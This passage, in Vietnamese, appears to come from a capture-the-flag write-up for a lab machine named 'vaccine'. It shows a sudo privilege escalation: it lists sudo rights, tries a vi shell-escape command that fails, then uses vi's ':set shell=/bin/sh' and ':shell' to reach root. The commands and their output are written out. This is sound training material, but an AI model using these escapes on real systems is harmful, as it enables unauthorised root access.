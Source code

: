 Nhập `sudo -l` để xem có những quyền gì:

```
postgres@vaccine:~$ sudo -l
[sudo] password for postgres: 
Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass
User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
postgres@vaccine:~$
```

Vì vậy, có quyền sudo để chỉnh sửa tệp pg_hba.conf bằng vi bằng cách chạy sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf. Đến GTFOBins để xem liệu có thể lạm dụng quyền này hay không: https://gtfobins.github.io/gtfobins/vi/#sudo

```
Nếu tệp nhị phân được phép chạy dưới dạng siêu người dùng bởi sudo, nó không làm mất các đặc quyền nâng cao và có thể được sử dụng để truy cập hệ thống tệp, nâng cấp hoặc duy trì quyền truy cập đặc quyền.

    sudo vi -c ':!/bin/sh' /dev/null
```

Vì vậy, thực hiện nó:

```
postgres@vaccine:~$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf -c ':!/bin/sh' /dev/null
Sorry, user postgres is not allowed to execute '/bin/vi /etc/postgresql/11/main/pg_hba.conf -c :!/bin/sh /dev/null'  as root on vaccine.
```

Không thể thực hiện lệnh sau vì `sudo` chỉ giới hạn ở `/bin/vi /etc/postgresql/11/main/pg_hba.conf`.

Theo GTFOBins, cũng có một cách khác:

```
vi
:set shell=/bin/sh
:shell
```

Vì vậy, thực hiện điều đó:

```
postgres@vaccine:~$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

Mở được trình soạn thảo `vi` với tư cách là siêu người dùng, có quyền root:
